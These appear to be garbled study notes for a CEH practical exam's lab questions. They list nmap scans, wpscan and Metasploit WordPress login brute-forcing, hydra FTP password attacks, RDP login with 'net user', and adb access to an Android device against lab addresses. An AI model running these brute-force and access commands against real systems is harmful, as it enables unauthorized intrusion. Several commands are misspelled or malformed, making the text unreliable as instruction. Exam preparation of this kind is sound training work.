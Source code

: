 #  after disovering webstie find opearting system machine hosting

 namp -sv ip/24

we can find the host like 3306  next 

nmap -O ip

 or namp -A ip/24  it will  be late

#  In organization network seucirty assesment domain execute domain name

first rdp login

after goest to command 

net user
 
#  network administraition locating the ip to machine 

nmap -Pn 8080 -p psV 3389 ip

ans in first question itself while scanning

# ethcial hacker one des ftp-ip hex file ex cyrpito

cryptool section ect got to desktop selec tfile ftp.hec and decrytp after

 in command 

ftp ip 

username and password given

after get flago.txt in qustion

#  locate the stegnograph means snow tool

#  you are worker of organization identiy if ip and port/ceh like that means
 
 wpscan --url http://10.10.10.10:8080/NEW -u root -P passwdfile.txt (Use this only after enumerating the user like in step 3)

  wpscan --url http://10.10.10.10:8080/NEW --usernames userlist.txt, --passwords passwdlist.txt 

if not working means

use auxilliary/scanner/http/wordpress_login_enum
 						
	show options
	
       set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt
	
       set RHOSTS 10.10.10.10  (target ip)
	
       set RPORT 8080          (target port)
	
       set TARGETURI http://10.10.10.10:8080/ajith
	
       set USERNAME admin

# A sile callest secret text dvwa
 
 click url login and you get downlaod file 

and copy and paste in hasehe.com

# ethical hacker working you secre no of backdoor

use rdp login  and before follow q2 

browse path in question and copy that opoen that file secret

 #  fftp site hsoted on machine on network flap context file

ftp 421

 open parrot
 
  hydra -L /home/attacker/Desktop/CEH_TOOLS/Wordlists/Username.txt -P /home/attacker/Desktop/CEH_TOOLS/Wordlists/Password.txt ftp://10.10.10.10

hydra -l user -P passlist.txt ftp://10.10.10.10 IF USER NAME GIVEN

NEXT FTP ip

 username and password

 get flag .txt
#  exmployee name excrypted login start F;// nnnn 

nmap  see subnet scan 

rdp login up and use username and password

or scan whole subnet nmap ip/24

and we can get the login

#  movie production sql dsss

 use the sql injection in dhabaleswar

 # A ascanning on you can ethcial hacker soa host are alive

 nmap -sn ip/24

# ana asset managment company android mobile sd card 

nmap uo -pn 

adb connect ip:5555

cd sdcard 

cat open
#   exploit vulnerable extract ip address use bc tect encoder 



